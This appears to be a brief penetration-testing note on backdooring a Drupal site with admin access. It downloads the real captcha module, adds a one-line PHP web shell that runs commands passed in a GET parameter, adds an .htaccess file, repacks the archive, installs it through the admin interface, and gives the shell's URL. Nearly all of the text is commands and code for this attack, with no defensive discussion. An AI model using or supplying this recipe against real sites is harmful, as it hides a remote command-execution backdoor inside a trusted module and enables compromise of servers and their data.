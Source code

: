 need admin rights

Hide our module under actual modules from drupal 

Take the captcha module 
```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz

tar xvf captcha-8.x-1.2.tar.gz
```

then create a PHP shell with contents:
```php
<?php
system($_GET['0']);
?>
```
create a .htaccess file to give ourselves access to the folder
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
copy the files into the captcha folder and then zip it back 
```shell-session
mv shell.php .htaccess captcha

tar cvf captcha.tar.gz captcha/
```

go to manage -> extend -> install new module -> browse and upload -> click install 

browse to `/module/captcha/shell.php`